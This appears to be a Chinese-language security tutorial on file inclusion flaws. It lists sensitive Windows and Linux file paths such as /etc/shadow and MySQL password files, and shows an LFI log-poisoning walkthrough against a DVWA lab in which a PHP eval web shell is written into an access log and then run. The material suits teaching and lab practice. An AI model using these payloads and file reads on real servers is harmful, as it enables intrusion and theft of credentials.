 ### 远程文件包含（RFI）

被包含的文件在**远程服务端**

#### 利用方式

包含攻击者指定**远程URL文件**

### 敏感文件常见路径

#### Windows：

```
C:\boot.ini		//查看系统版本
C:\Windows\system32\inetsrv\MetaBase.xml	//iis配置文件
C:\Windows\repair\same	//存储Windows系统初次安装密码
C:\ProgramFiles\mysql\my.ini	//MySQL配置信息
C:\ProgramFiles\mysql\data\mysql\user.MYD	//MySQL root密码
C:\Windows\php.ini		//php配置信息
```

#### Linux/unix：

```bash
/etc/passwd							//账户信息
/etc/shadow							//账户密码
/usr/local/app/apache2/conf/http.conf			//apache默认配置文件
/usr/local/app/apache2/conf/extra/http-vhost.conf		//虚拟网站配置
/usr/local/app/php5/lib/php.ini				//php相关配置
/etc/httpd/conf/http.conf					//apache配置信息
/etc/my.conf							//mysql配置文件
```

### 本地文件包含利用

#### 本地文件包含配合日志文件

##### burp抓包DVWA靶场

绕过url编码

```
GET /vulnerabilities/xss_d/?default=English<?php eval($_GET[cmd]);?> HTTP/1.1
HOST 192.168.70.10:8085
```

##### 访问日志文件

```
http://192.168.70.10:8085/vulnerabilities/fi/?page=../../../../Extensions/Nginx1.15.11/logs/access.log&cmd=system(whaomi);system(whaomi);system(whaomi);
```

#### file://协议

```
http:/192.168.70.10:8085/vulnerabilities/fi/?page=file://C:/windows/win.ini
```
